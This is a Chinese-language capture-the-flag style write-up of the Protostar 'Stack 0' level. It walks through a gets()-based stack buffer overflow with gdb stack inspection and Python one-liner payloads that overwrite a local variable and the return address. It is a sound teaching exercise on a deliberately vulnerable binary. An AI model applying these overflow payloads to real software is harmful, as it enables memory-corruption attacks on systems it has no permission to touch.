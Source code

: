 # Stack 0

## （一） 题目：

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid    out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

source code:

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

int main\(int argc, char \*\*argv\)

{

volatile int modified;

char buffer\[64\];

modified = 0;

gets\(buffer\);

if\(modified != 0\) {

```
  printf\("you have changed the 'modified' variable\n"\);
```

} else {

```
  printf\("Try again?\n"\);
```

}

}

## （二）解题过程：

```
 This problem is about how to layout the stack in memory
```

```
 这是典型的栈溢出攻击。知识点在于缓冲区溢出时候，变量在内存中的布局。
```

![](/png/01.png)

1）手工测试

思路，通过从小到大的输入得出栈帧的布局，理清如何修改边界值从而修改程序的执行流程。

当modified变量=0时候，输出try again

modified=1,输出 变量modified修改。

当buffer输入aaaa时候，输出try again，modified=0

输入边界64个a时候输出try again，modified=0

输入buffer为65时候

![](/png/02.png)

可以通过修改buffer的长度来修改modified变量的值。

这就是典型的缓冲区溢出。栈布局如下：

栈顶

buffer\[64\] 第二个变量

modified    第一个变量

上一个栈帧ebp

返回地址

```
argc

  argv
```

栈底

```
    程序中包含两个变量，一个modified，被声明为volatile，这个标识符表示每次使用modified变量都从内存中读取值，而不是使用cache中保存的值；还有一个变量buffer，占用64个字节的空间。程序使用gets函数读取用户输入，并保存到buffer中，之后根据modified变量的值决定if语句的执行逻辑。
```

按照正常情况，由于modified使用等于0，因此程序应该使用输出"Try again?"，但是由于在获取用户输入时没有判断用户输入数据的大小，因此用户可能会输入大于64个字节的内容，造成栈溢出。那么我们怎么通过这个栈溢出漏洞修改modified的值，从而修改if语句的执行逻辑呢？

用反汇编工具跟踪调试如下：

gdb ./stack0

在程序的第十三行下断点，跟踪调试

b 13![](/png/03.png)

此时栈帧的布局如上：

esp 0xbffffcc0

esp+1c buff\[0-3\]  buff起始地址

esp+5c modified=0  modified地址

ebp   0xbffffd28

修改流程，可以尝试填充buff，覆盖modified值。计算一下两者相差多少个字节。相差0x40个，也就是64个，所以我们试着填充65个。查看此时的内存布局

![](/png/04.png)

esp+5c处的modified值变为了非0，程序的分支流程被修改，输出也变化了。 如果我们继续输入超过64个字节的内容，就会覆盖modified变量的值，但是要注意不要超过变量modified的位置，否则会覆盖其他关键信息\(例如返回地址\)，使程序崩溃。

2）利用工具自动化实现

1） 用python脚本探测漏洞触发点。![](/png/05.ppng.PNG) 因为要在程序执行过程中处理用户输入的问题，所以使用subprocess模块。

![](/png/06.png)

覆盖成1或者其他非0值

```
$ python -c 'print "A"\*0x40+"\x01\x00\x00\x00"' \| ./stack0

you have changed the 'modified' variable

$ python -c 'print "A"\*0x40+"\x01"' \| ./stack0

you have changed the 'modified' variable
```

覆盖返回地址

发现buffer距离返回地址是0x54,后面改为要覆盖的地址即可

，返回地址处0xb7eadcXX

$ python -c 'print "A"\*0x50+"\x19\x84\x04\x08"' \| ./stack0  
    you have changed the 'modified' variable  
    you have changed the 'modified' variable  
    Segmentation fault  
    $ python -c 'print "\x00"\*0x50+"\x19\x84\x04\x08"' \| ./stack0  
    Try again?  
    you have changed the 'modified' variable  
    Segmentation fault  


![](/png/07.png)



当返回地址被修改后，就会出现段错误。需要对返回地址进行修改，修改成可以利用的地址。

Ref：

[https://exploit.education/phoenix/stack-zero/](https://exploit.education/phoenix/stack-zero/)

[https://blog.csdn.net/guilanl/article/details/61916375](https://blog.csdn.net/guilanl/article/details/61916375)

